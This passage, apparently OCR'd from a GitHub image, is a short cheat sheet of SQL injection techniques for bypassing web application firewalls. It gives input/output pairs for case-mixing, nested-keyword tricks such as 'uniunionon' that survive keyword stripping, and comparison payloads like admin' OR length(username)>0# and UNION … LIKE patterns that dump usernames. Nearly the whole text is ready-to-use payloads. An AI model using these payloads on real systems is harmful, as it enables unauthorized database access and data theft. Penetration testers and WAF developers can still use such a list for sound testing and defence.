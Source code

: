 INPUT: seLEct * frOm table_name whErE username =’admin’;
OUTPUT: select * from table_name where username =’admin’;

INPUT: select * from table_name where username =’ADMIN’;
OUTPUT: select * from table_name where username =’ADMIN’;

## Replace Bypass
The WAFs that replace all the occurrences of particular keywords with  empty string can be bypassed by giving the keyword in the middle of the same key word and hence getting the same keyword after the WAF replaces the keyword in between

INPUT: select * from table_name where username =’admadminin’;
OUTPUT: select * from table_name where username =’admin’;

INPUT: ?1’ uniunionon select * from table_name where username=’admin’;
OUTPUT: select * from table_name where username =’1’ union select * from table_name where username=’admin’;


## Varied Comparison
In SQL, while selecting from the database, comparison of the conditions can be done with other methods other than ‘=’ and we can bypass the filters with these varied methods 

INPUT: select * from table_name where username =’’<1;%00
OUTPUT: Dumps whole table since 0(empty set)<1 = true

INPUT: select * from table_name where username =’’ union select username where username like a%;
OUTPUT: Would dump table where usernames that starts with ‘a’

INPUT: select * from table_name where username =’’ union select username where username like %m;
OUTPUT: Would dump all usernames that ends with ‘m’

INPUT:  select * from table_name where username =’’ union select username where username like %d%;
OUTPUT: Would dump all usernames that has ‘d’ in it


INPUT: ?username=admin' OR length(username)>0#
OUTPUT: select * from table_name where username='admin' OR length(username)>0;

INPUT: ?username=admin' OR length(username)!=0#
OUTPUT: select * from table_name where username='admin' OR length(username)!=0;



